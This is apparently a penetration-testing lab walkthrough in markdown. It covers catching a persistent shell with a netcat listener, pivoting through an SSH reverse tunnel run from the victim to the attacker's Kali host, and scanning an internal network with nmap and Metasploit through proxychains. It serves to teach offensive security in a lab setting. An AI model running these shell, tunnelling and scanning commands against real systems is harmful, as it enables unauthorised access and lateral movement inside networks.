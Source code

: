 # Changing Targets VICTIM 2

## Introduction



Here You will find techniques PERSISTENT SHELL, PIVIOT, AND PING SWEEP.



## Step 1: CATCH PERSISTENT SHELL



### (ATTACKER)



```bash
nc -lvp 55556
```
**REMEMBER TO UPGRADE YOUR SHELL**


## Step 2: PIVOT

### (ATTACKER)


```bash
 netstat -natp
```
```
netstat -natp | grep LISTEN
```

**AFTER CATCHING PERSISTENT SHELL (USE YOUR SSH PORT) OPEN SSH FOR LISTNER TO SET UP PROXY**


```bash
sudo systemctl status ssh.service
```
```
sudo systemctl start ssh.service
```


### (VICTIM)
```bash
 ssh -N -f -R 127.0.0.1:9080 kali@192.168.122.209 -p 55555
```


MAKE SURE PORT FWD RULE IS GOOD ON PFSENSE SSH PORT 22
if it states port fowarding failed it means you alrady have ypur proxy open
(VICTIM) should be promted a password



## Step 3: PING SWEEP


**NOTE: YOUR DIRECTORIES MAY VARY COMPARED TO MY EXAMPLE DEPENDING HOW AND WHERE YOUR SCOPE FILE IS ON KALI**



### (ATTACKER)
```bash
 ls
```
```
cd internal
```

**SHOULD SEE IP'S PING SWEEPS AND TARGETS**


```
ls
```
```
cd 192.168.1.102 
```
SOC 4 IP

```
sudo proxychains nmap -iL scope -F -Pn -sT | tee fast_scan
```

**USE A THIRD TERMINAL**

```bash
sudo proxychains msfconsole 
```
[1:24:44]

*** continued... at [ 2 Metasploit via Proxychains & PrivEsc Automation w linPEAS ]
